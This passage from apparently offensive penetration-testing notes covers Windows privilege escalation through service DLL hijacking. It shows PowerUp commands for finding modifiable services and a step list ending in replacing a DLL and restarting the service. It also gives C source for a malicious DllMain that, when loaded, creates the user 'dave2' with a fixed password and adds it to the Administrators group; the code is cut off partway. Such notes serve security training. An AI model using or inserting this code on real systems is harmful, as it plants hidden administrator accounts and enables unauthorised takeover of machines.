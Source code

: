 ```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Get-ModifiableServiceFile
```

##### Service DLL Hijacking
>The following is the default search order with SafeDllSearchMode enabled. When it's disabled the current directory escalates to second place. To disable this feature, create the HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode registry value and set it to 0 (default is enabled).
```
1.The directory from which the application loaded.
2.The system directory. Use the GetSystemDirectory function to get the path of this directory.(C:\Windows\System32)
3.The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched. (C:\Windows\System)
The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
(C:\Windows)
4.The current directory.
5.The directories that are listed in the PATH environment variable. Note that this does not include the per-application path
specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.
```

```
1. Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
2. Use Procmon64.exe(Process Monitor)(require admin privilege)(Bypass: copy the file to local, then use Procmon64.exe)
3. Checked for loaded dlls or missing dlls
4. replace dll with malicious file
5. PS: Restart-Service BetaService
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d0995520-1ee4-4c84-88aa-b0b9e1360833)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/b33e1fd2-993c-4c7b-ad5c-7c15b1bb232a)


>Each DLL can have an optional entry point function named DllMain, which is executed when processes or threads attach the DLL  
This function generally contains four cases named DLL_PROCESS_ATTACH, DLL_THREAD_ATTACH, DLL_THREAD_DETACH, DLL_PROCESS_DETACH
```
#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
```